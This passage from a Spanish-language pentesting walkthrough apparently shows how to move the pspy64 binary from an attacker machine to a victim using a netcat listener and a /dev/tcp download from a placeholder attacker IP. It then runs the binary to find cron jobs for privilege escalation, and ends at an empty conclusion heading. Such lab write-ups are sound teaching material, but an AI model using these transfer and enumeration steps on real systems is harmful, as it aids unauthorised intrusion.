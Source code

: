 Primero, nos situamos en el directorio donde tenemos `pspy64` en nuestra máquina atacante. Verificamos su presencia:

```bash
ls pspy64
pspy64
````

Luego, utilizamos `netcat` (`nc`) para escuchar en el puerto 443 y enviar el binario cuando la víctima se conecte:

```bash
nc -lvnp 443 < pspy64
```

Con esto, dejamos a `netcat` a la espera de una conexión entrante. En cuanto la máquina víctima se conecte, el binario `pspy64` se transferirá automáticamente.

## Paso 2: Descargar `pspy64` en la máquina víctima

Desde la máquina víctima, utilizamos redirección de entrada/salida con `/dev/tcp` para establecer una conexión TCP con la máquina atacante en el puerto 443 y guardar el contenido en un archivo llamado `pspy64`:

```bash
cat < /dev/tcp/IP_ATACANTE/443 > pspy64
```

**Nota**: Reemplazamos `IP_ATACANTE` por la dirección IP real de nuestra máquina atacante.

Para comprobar que se transfirió correctamente ejecutamos una comprobación de su hash

```bash
md5sum pspy64
88b43b16187976296c543526e1cb606f  pspy64  # comparamos este código con el de la máquina víctima si son iguales esta bien
```
## Paso 3: Dar permisos de ejecución

Una vez recibido el archivo, le damos permisos de ejecución en la máquina víctima:

```bash
chmod +x pspy64
```

## Paso 4: Ejecutar `pspy64`

Ahora podemos ejecutar `pspy64` para observar los procesos en tiempo real, incluyendo la ejecución de tareas cron:

```bash
./pspy64
```

Esto nos permitirá detectar posibles tareas cron que ejecuten scripts o binarios con permisos elevados, lo cual puede convertirse en un punto de entrada para escalar privilegios.

## Conclusión

